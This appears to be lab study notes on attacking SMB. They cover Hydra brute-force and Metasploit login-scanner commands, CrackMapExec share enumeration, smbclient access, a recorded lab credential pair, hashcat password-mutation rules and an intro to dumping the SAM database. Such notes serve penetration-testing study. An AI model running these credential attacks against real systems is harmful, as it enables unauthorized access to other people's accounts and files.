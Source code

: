 ### SMB
*Server Message Block*(`SMB`) is a protocol responsible for transferring data between client and server in a LAN. Used to impliment file sharing, directory sharing and printing services. Compared to NFS for linux. 
SMB aka *Common Internet Files System*(`CIFS`) is part of SMB and allows connections from windows. nix. or mac. 
*Hydra can be used to bruteforce SMB*
```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

***HYDRA CANNOT HANDLE SMBV3 REQUESTS. USE METASPLOIT***
```shell-session
auxiliary/scanner/smb/smb_login
```

Once we have the SMB Server credentials cracked
We can use CrackMap again to enumerate SMB shares. 

```shell-session
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

Finally using smbclient to connect to smb shares.

```shell-session
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

cassie:12345678910

## Password Mutations
Hashcat can use specific rule files to create mutations of passwords. 

| **Function** | **Description**                                   |
| ------------ | ------------------------------------------------- |
| `:`          | Do nothing.                                       |
| `l`          | Lowercase all letters.                            |
| `u`          | Uppercase all letters.                            |
| `c`          | Capitalize the first letter and lowercase others. |
| `sXY`        | Replace all instances of X with Y.                |
| `$!`         | Add the exclamation character at the end.         |
***PREBUILT RULESLISTS***
```shell-session
ls /usr/share/hashcat/rules/
```

## Default Passwords. 
https://github.com/ihebski/DefaultCreds-cheat-sheet

## Attacking SAM
With access to non-domain joined Windows systems we may benefit from quickly dumping the SAM database and crack hashes offline.

